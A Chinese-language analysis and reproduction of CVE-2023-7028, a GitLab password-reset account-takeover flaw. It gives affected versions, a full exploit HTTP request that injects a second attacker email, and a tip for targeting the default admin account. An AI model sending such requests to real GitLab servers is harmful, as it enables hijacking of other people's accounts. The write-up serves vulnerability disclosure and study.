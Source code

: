 
GitLab任意用户接管漏洞分析复现（CVE-2023-7028）

- - -

# GitLab任意用户接管漏洞分析复现（CVE-2023-7028）

## 漏洞描述

2024年1月11日，Gitlab官方披露CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置Gitlab仅对可信地址开放。

### 影响范围

> 16.1 <= Gitlab < 16.1.6
> 
> 16.2 <= Gitlab < 16.2.9
> 
> 16.3 <= Gitlab < 16.3.7
> 
> 16.4 <= Gitlab < 16.4.5
> 
> 16.5 <= Gitlab < 16.5.6
> 
> 16.6 <= Gitlab < 16.6.4
> 
> 16.7 <= Gitlab < 16.7.2

**这里需要注意的是，该漏洞于 2023 年 5 月 1 日在 16.1.0 中引入。所以低于Gitlab主线版本低于16.1.0环境不受该漏洞影响。**

### 漏洞利用前置条件

1、知道任意用户的邮箱

2、管理员正确配置了邮件服务

## 代码分析

根据官方的[commit记录](https://gitlab.com/rluna-gitlab/gitlab-ce/-/commit/24d1060c0ae7d0ba432271da98f4fa20ab6fd671)来看，很容易就能发现问题——限制了邮件发送的数量。

[![](assets/1705482408-a923dfaea0737809eab6dcefd227874c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003924-a4085d56-b3c4-1.png)

## 漏洞复现

知道了漏洞的原理，接下来就开始漏洞复现。

首先访问`/users/password/new`进入到重置密码的页面，输入一个你知道的用户，然后使用Burp或者其他工具抓包。  
[![](assets/1705482408-f0a62c6f9907bcbf6ff2ee5beb705d30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003935-aa853d2a-b3c4-1.png)

```plain
POST /users/password HTTP/1.1
Host: 1.1.1.1
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://1.1.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Referer: http://1.1.1.1:8090/users/password/new
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _gitlab_session=e8eb950940d6e5d7c3820e6c9e103d7b
DNT: 1
Sec-GPC: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Connection: close

authenticity_token=LnGtHYZiXkXxCGby0lK-Krqy79_lJlbjWsYjz7exHItcrWDAQQX4Yb1rV9J5y4V89Ik8U9UpTbro8owRoekdAA&user%5Bemail%5D%5B%5D=poc1%40163.com&user%5Bemail%5D%5B%5D=attack%40qq.com
```

第一个邮箱处填写获取到的邮箱，第二个邮箱写上你自己的邮箱，然后发包，过一会你的邮箱就会收到一封密码重置的邮件，然而这个邮件里面的重置连接是另一个用户的，效果如下：  
[![](assets/1705482408-42fa6f2021c366a84eb95bee0e4bde2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116004034-cde3d466-b3c4-1.png)  
可以看到把重置密码的邮件同时发给了两个邮箱，然而第二个邮箱是没有经过验证的攻击者的邮箱，攻击者收到邮件后直接点击重置密码，就可以接管对应的账户了。

## 后续利用

### Gitlab版本判断

[https://github.com/righel/gitlab-version-nse/](https://github.com/righel/gitlab-version-nse/)

### 重置管理员账号

在gitlab安装时，管理员的默认账户为`admin@example.com`，所以可以通过直接重置默认邮箱，大概率能直接接管gialab管理员的账号。
